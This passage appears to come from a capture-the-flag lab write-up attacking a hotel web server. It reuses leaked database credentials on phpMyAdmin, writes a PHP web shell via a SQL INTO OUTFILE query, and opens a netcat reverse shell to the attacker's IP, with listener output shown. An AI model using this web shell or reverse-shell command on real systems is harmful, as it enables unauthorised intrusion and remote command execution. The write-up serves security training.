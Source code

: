 ```
sass
sh3ll.php
tmpbbwjo.php
tmpbwnqm.php
tmpuaapn.php
tmpuatkw.php
---
os-shell> 
```

From the file ```connection.php```, we get the following:
```
<?php
$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
?>
```

Credential reuse is a very common issue especially in things that the admin 'thinks' others would never get access to. Lets try this on the /phpmyadmin page.

!(myadmin_success)[myadmin_success.JPG]

We managed to get in! Looking up some exploits on MySQL DBs with phpmyadmin, https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/, we can perform remote code execution with SQL queries and get the server to return us a shell.

## phpmyadmin exploit

Using ```SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php"```, we are writing to the file ```backdoor.php```into a folder we have access to which we can execute from the web application. What this code does is to get the input from the parameter ```cmd``` and pass it to a system call. We can now return a shell from the host!

Crafting our unique url: ```http://10.10.10.143/backdoor.php?cmd=nc%20-nv%2010.10.15.234%201234%20-e%20/bin/sh ``` and launching a listener on port 1234, we get back a shell.

```
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:42096.
ls
ayax
b4nn3d
backdoor.php
connection.php
css
dining-bar.php
fonts
footer.php
getfileayax.php
images
index.php
js
mine2.php
mine3.php
nav.php
phpmyadmin
room.php
roomobj.php
rooms-suites.php
sass
```
